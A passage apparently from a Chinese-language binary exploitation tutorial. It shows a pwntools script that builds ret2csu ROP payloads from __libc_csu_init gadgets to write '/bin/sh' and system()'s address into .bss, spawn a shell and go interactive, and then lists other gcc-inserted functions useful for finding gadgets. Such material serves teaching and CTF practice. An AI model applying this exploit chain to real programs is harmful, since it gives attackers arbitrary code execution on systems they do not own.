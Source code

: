 ```
 system_addr = write_addr - off_system_addr
 print "system_addr: " + hex(system_addr)

 bss_addr=0x601028

 p.recvuntil("Hello, World\n")

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #read(rdi=0, rsi=bss_addr, rdx=16)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)

 print "\n#############sending payload2#############\n"
 p.send(payload2)
 sleep(1)

 p.send(p64(system_addr))
 p.send("/bin/sh\0")
 sleep(1)

 p.recvuntil("Hello, World\n")

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #system(rdi = bss_addr+8 = "/bin/sh")
 payload3 = "\x00"*136
 payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload3 += "\x00"*56
 payload3 += p64(main)

 print "\n#############sending payload3#############\n"

 sleep(1)
 p.send(payload3)

 p.interactive()
```

上面讲到了__libc_csu_init()的一条万能gadgets，其实不光__libc_csu_init()里的代码可以利用，默认gcc还会有如下自动编译进去的函数可以用来查找gadgets。

```
 _init
 _start
 call_gmon_start
 deregister_tm_clones
 register_tm_clones
 __do_global_dtors_aux
 frame_dummy
 __libc_csu_init
 __libc_csu_fini
 _fini
```
